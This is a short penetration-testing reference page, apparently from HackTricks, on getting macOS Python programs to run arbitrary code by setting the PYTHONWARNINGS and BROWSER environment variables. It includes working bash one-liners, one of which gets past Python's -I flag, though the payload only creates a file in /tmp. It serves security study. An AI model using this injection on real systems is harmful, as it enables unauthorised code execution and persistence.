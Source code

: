 # macOS Python Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## Via `PYTHONWARNINGS` and `BROWSER` env variables

It's possible to alter both environment variables to execute arbitrary code whenever python is called, for example:

```bash
# Generate example python script
echo "print('hi')" > /tmp/script.py

# RCE which will generate file /tmp/hacktricks
PYTHONWARNINGS="all:0:antigravity.x:0:0" BROWSER="/bin/sh -c 'touch /tmp/hacktricks' #%s" python3 /tmp/script.py

# RCE which will generate file /tmp/hacktricks bypassing "-I" injecting "-W" before the script to execute
BROWSER="/bin/sh -c 'touch /tmp/hacktricks' #%s" python3 -I -W all:0:antigravity.x:0:0 /tmp/script.py
```

{{#include ../../../banners/hacktricks-training.md}}


